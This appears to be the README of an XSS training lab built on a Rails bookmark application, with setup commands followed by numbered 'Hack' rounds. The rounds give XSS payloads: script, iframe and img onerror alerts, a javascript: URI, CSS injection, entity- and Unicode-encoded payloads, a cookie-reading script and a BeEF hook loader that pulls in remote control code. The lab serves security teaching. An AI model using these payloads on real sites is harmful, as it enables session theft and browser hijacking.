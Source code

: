# XSS hands-on with Rails application

## Install


### Database

- Install postgresql

- Create role

```console
sudo -u postgres createuser -P <SYSTEM_USER_NAME>
```

- Create database

```console
sudo -u postgres createdb -O <SYSTEM_USER_NAME> db_dev
```

### Application

- Install dependencies

```console
bundle install
```

- Configure database

```console
rails db:migrate
```

- Run

```console
rails server
```

## Hack


### Round 1: insert HTML tags

- Add a bookmark with html tags in comment:

- Title: 

```
OWASP Cheat Sheet Series
```

- Link

```
https://cheatsheetseries.owasp.org
```

- Comment

```
The <b>OWASP Cheat Sheet Series</b> was created to provide a concise collection of high value information on specific application security topics.
```


### Round 2: using HTML Tag

In bookmark comment:

```
<script>alert(`XSS`)</script>
```

```
<iframe src="javascript:alert('XSS');">
```

```
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
```

Note: using simple HTML tags was too easy! Now, use different contexts for XSS execution.

### Round 3: using JS URI

In bookmark link field:

```
javascript:alert('XSS')
```


### Round 4: using CSS

In bookmark color fiels:

```
red; background: url(https://http.cat/200)
```

### Round 5: using javascript

Add a bookmark with the following order id:

```
22; alert(1);
```


### Round 6: Encoded XSS

- HTML Decimal entity

````
<img src=x onerror="&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41">
````

- UTF16

````
<img src="x" onerror="\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074:\u0061\u006C\u0065\u0072\u0074('XSS')">
````



### Round 6: Steal Cookie :fearful:

Add a bookmark with script tags in comment to get session cookie

```
<script>alert(document.cookie)</script>
```

### Round 7: take controle with Beef :scream:

```
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();" />
```
